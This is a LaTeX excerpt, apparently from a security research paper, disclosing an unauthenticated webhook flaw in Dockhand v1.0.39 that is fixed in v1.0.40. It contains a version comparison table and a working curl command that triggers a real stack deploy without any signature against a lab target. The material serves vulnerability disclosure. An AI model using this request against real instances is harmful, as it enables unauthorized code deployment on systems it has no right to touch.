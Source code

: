 \documentclass[journal]{IEEEtran}
\begin{document}
\begin{table}[t]
\centering
\footnotesize
\setlength{\tabcolsep}{3pt}
\begin{tabular}{@{}p{2.15cm}p{2.6cm}p{2.85cm}@{}}
\toprule
Action (anonymous) & v1.0.39 arm & v1.0.40 arm \\
\midrule
\texttt{POST .../1/}\hspace{0pt}\texttt{webhook}, fresh stack &
\texttt{200}, clone + compose + container \textbf{created} &
\texttt{401} \texttt{Invalid} \texttt{webhook} \texttt{signature} \\
\texttt{POST} at unchanged HEAD &
\texttt{200} \texttt{"skipped":true} (handler ran pre-auth) &
\texttt{401} \\
\texttt{POST} unknown id & \texttt{404} \texttt{Git stack not found} &
\texttt{404} (same; see Sec.~\ref{sec:detection}) \\
signed \texttt{POST} (correct secret) & n/a (no secret exists) &
\texttt{200}, deploys (control) \\
\texttt{GET} variant & same null-guard shape verified in source; not
executed in lab & same mandatory-secret guard in source; not executed in lab \\
\bottomrule
\end{tabular}
\caption{Trigger matrix as executed in the lab (transcripts in the cited
evidence folders; the GET row is verified in source only and marked as such).}
\label{tab:trigger}
\end{table}

Table~\ref{tab:trigger} summarizes what was executed. The remainder of this
section walks the two tiers.

\subsection{Tier 1: one anonymous POST, one real deploy}
\label{sec:tier1}

The attack is one request. Listing~\ref{lst:tier1req} is the wire form from
\texttt{exploit/tier1-webhook.sh} (run \texttt{tier1-20260930-}\allowbreak\texttt{200835},
all headers and bodies archived): no cookie, no authorization header, no
signature, a JSON body that a forge would barely bother to send.

\begin{lstlisting}[style=shell,label={lst:tier1req},
caption={The complete Tier-1 attack as issued by an unauthenticated client
(from \texttt{exploit/tier1-webhook.sh}; target \texttt{172.30.53.21:3000},
\texttt{fnsys/dockhand:v1.0.39})}]
curl -s -D resp.headers -o resp.body \
  -X POST http://172.30.53.21:3000/api/git/stacks/4/webhook \
  -H 'Content-Type: application/json' \
  -d '{"ref":"refs/heads/main"}'
\end{lstlisting}
\end{document}
